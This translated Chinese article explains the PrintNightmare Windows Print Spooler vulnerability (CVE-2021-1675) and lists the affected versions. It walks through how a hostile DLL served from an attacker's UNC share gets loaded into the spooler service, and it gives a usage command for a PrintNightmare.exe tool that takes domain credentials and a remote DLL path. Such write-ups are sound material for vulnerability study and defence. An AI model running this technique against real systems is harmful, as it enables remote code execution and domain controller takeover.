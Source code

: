 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/jLRQFA8jeuXf7tsUQh_fRw)

PrintNightmare (CVE-2021-1675)：Windows 后台处理程序服务中的远程代码执行
-------------------------------------------------------

RpcAddPrinterDriver  

----------------------

向服务器添加打印机驱动程序 (RpcAddPrinterDriver)

让我们检查一下关于 RpcAddPrinterDriver 调用的 MS-RPRN：打印系统远程协议。

要将打印机驱动程序（“OEM 打印机驱动程序”）添加或更新到打印服务器（“CORPSERV”），客户端（“TESTCLT”）执行以下步骤。

1.  客户端可以使用 RPC 调用 RpcAddPrinterDriver 向打印服务器添加驱动程序。
    
2.  客户端确保打印机驱动程序的文件位于服务器可访问的位置。为此，客户端可以共享包含文件的本地目录，或使用 [MS-SMB] 将文件放入服务器上的目录中
    
3.  然后客户端分配并填充 DRIVER_INFO_2 结构，如下所示：
    
    pName = L"OEM 打印机驱动程序";
    
    pEnvironment = L"Windows NT x86"; /* 驱动兼容的环境 */
    
    pDriverPath = "\\CORPSERV\C$\DRIVERSTAGING\OEMDRV.DLL";315 / 415
    
    [MS-RPRN] - v20200826
    
    打印系统远程协议
    
    版权所有 © 2020 微软公司
    
    发布时间：2020 年 8 月 26 日
    
    pDataFile = "\\CORPSERV\C$\DRIVERSTAGING\OEMDATA.DLL";
    
    pConfigFile = "\\CORPSERV\C$\DRIVERSTAGING\OEMUI.DLL";
    
4.  客户端分配一个 DRIVER_CONTAINER driverContainer 结构并初始化它以包含 DRIVER_INFO_2 结构。
    
5.  客户端调用 RpcAddPrinterDriver。
    
    RpcAddPrinterDriver(L"\\CORPSERV", &driverContainer);
    

假设您在那里提供服务的路径

pDataFile =A.dll

pConfigFile =\attackerip\Evil.dll

pDriverPath=C.dll

它将 A、B 和 C 复制到文件夹 C:\Windows\System32\spool\drivers\x64\3\new。然后它将它们复制到 C:\Windows\System32\spool\drivers\x64\3，并加载 C:\Windows\System32\spool\drivers\x64\3\A.dll 和 C:\Windows\System32\ spool\drivers\x64\3\C.dll 进入 Spooler 服务。但是，在最新版本中，Spooler 将检查以确保 A 和 C 不是 UNC 路径。但是由于 B 可以是 UNC 路径，所以我们可以将 pConfigFile 设置为 UNC 路径（evildll）。这将使我们的 evildll Evil.dll 被复制到 C:\Windows\System32\spool\drivers\x64\3\ Evil.dll。然后再次调用 RpcAddPrinterDriver，将 pDataFile 设置为 C:\Windows\System32\spool\drivers\x64\3\Evil.dll。它将加载我们的邪恶 dll。不幸的是，它不起作用。因为如果你在文件夹 C:\Windows\System32\spool\drivers\x64\3 中设置了 A、B、C。文件复制会出现访问冲突。为了绕过这个，我们需要使用驱动程序升级的备份功能。如果我们升级某些驱动程序，旧版本将备份到 C:\Windows\System32\spool\drivers\x64\3\old\1\ 文件夹中。然后我们可以绕过访问冲突并成功将我们的 evil.dll 注入到 spooler 服务中。

成功加载我们的 dll：

用法
--

```
.\PrintNightmare.exe dc_ip path_to_exp user_name password

Example:
.\PrintNightmare.exe 192.168.5.129 \\192.168.5.197\test\MyExploit.dll user2 test123#
```

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV1H3UdqxgpPbTTaCLe25zvGRxvrrQbVD6EDfuR7BN2iakpwSvxE9WM1j7mmPGxCSWzpibyn9U6tsjJg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV1H3UdqxgpPbTTaCLe25zvGRzXNB6VQ729eibg9aYZsGXib4mN5tYfrf8JY5GMQVlh6DMkkgPpvaNrQ/640?wx_fmt=png)

**影响版本**

    Windows Server 2019 (Server Core installation)

    Windows Server 2019

    Windows Server 2016 (Server Core installation)

    Windows Server 2016

    Windows Server 2012 R2 (Server Core installation)

    Windows Server 2012 R2

    Windows Server 2012 (Server Core installation)

    Windows Server 2012

    Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)

    Windows Server 2008 R2 for x64-based Systems Service Pack 1

    Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)

    Windows Server 2008 for x64-based Systems Service Pack 2

    Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)

    Windows Server 2008 for 32-bit Systems Service Pack 2

    Windows Server, version 2004 (Server Core installation)

    Windows RT 8.1

    Windows 8.1 for x64-based systems

    Windows 8.1 for 32-bit systems

    Windows 7 for x64-based Systems Service Pack 1

    Windows 7 for 32-bit Systems Service Pack 1

    Windows 10 Version 1607 for x64-based Systems

    Windows 10 Version 1607 for 32-bit Systems

    Windows 10 for x64-based Systems

    Windows 10 for 32-bit Systems

    Windows Server, version 20H2 (Server Core Installation)

    Windows 10 Version 20H2 for ARM64-based Systems

    Windows 10 Version 20H2 for 32-bit Systems

    Windows 10 Version 20H2 for x64-based Systems

    Windows 10 Version 2004 for x64-based Systems

    Windows 10 Version 2004 for ARM64-based Systems

    Windows 10 Version 2004 for 32-bit Systems

    Windows 10 Version 21H1 for 32-bit Systems

    Windows 10 Version 21H1 for ARM64-based Systems

    Windows 10 Version 21H1 for x64-based Systems

    Windows 10 Version 1909 for ARM64-based Systems

    Windows 10 Version 1909 for x64-based Systems

    Windows 10 Version 1909 for 32-bit Systems

    Windows 10 Version 1809 for ARM64-based Systems

    Windows 10 Version 1809 for x64-based Systems

    Windows 10 Version 1809 for 32-bit Systems

        该漏洞可用于实现 LPE 和 RCE。至于 RCE 部分，您需要一个用户在 Spooler 服务上进行身份验证。但是，这在域环境中仍然很重要。由于通常 DC 会启用 Spooler 服务，因此被入侵的域用户可能会利用此漏洞来控制 DC

地址  

https://github.com/afwu/PrintNightmare